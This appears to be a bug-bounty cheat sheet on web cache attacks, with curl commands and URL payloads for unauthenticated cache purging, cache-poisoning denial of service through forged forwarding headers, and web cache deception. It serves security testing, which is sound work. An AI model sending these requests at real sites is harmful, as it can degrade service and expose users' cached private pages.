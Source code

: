 #  Unauth Cache Purging
## What is Cache Purge Request?
Cache Purge means to delete the stored caches. So if you purge the cache, it means the next time you visit that website, it will generate the page by pulling info from the database (the original method). Then, it will recopy the page again to create a new cache.

The Cache Purge request, simply allows users to delete any cached resource.

# Unauthenticated Cache Purge
Description: If the Purge request is available to any user, even those who are not authenticated, they can delete/invalidate the caches stored at certain resource. This can lead to increased bandwidth costs and degraded application performance. Allowing anonymous users to purge cache could be used to maliciously degrade performance.
How to Perform: Simply give the curl command:
```bash
curl -X PURGE https://target.com
```
If it is vulnerable it will look like this:
{Status ok and all in response}

if its not then it will look like this:
provided credentials are mission or invalid

[Report/Reference](https://hackerone.com/reports/154278)

## DOS Via Cache
```bash
curl -H ‘X-Forwarded-Port: 123’ https://www.website.com/?toxic=888
Then try to load https://www.website.com/?toxic=888 in your browser
```
```bash
curl -H ‘X-Forwarded-Host: www.website.com:123' https://www.website.com/?toxic=888
Then try to load https://www.website.com/?toxic=888 in your browser
```
```bash
- Go to target website and intercept the request using burp suite
Send the request to repeater and add the header zTRANSFER-ENCODING: dgsht
Click on go and check the response, if it is vulnerable then it will show you an error of 501 ‘NOT_IMPLEMENTED’

```
## CHeck For Cache Deception
```bash
example.com/account.php to example.com/account.php%0Anonexistent.css
example.com/account.jsp;param to example.com/account.jsp%3Bparamnoexistent.css
example.com/account.php#frag to example.com/account.php%23nonexistent.css
```
